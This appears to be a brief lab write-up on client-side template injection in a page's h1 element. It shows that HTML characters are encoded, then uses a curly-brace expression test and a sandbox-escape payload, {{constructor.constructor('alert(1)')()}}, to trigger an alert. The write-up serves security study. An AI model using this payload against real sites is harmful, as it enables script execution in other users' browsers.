 The string is part of a h1 tag:

![img](media/dacf952e9c78bc0ba6e053083d5290ae.png)

Searching "\<'\>" we find "\>", "\<" and "'" are HTML-encoded:

![img](media/f43ce75bedba90c226442e625068a8b3.png)

Using curly-braces we find this payload is interpreted:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{1== 1 ? "Yes, it is equal" : "No, it is not"}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/3bcfaa9fe7d9f3fc98049fa548dfdaba.png)

![img](media/4e880a7cd8091076ec26288a26b6abe7.png)

I could pop an alert with the example from
https://stackoverflow.com/questions/66759842/what-does-object-constructor-constructoralert1-actually-do-in-javascript:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 {{constructor.constructor('alert(1)')()}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/f7f13c4302b81ca9db68a9dd36491747.png)
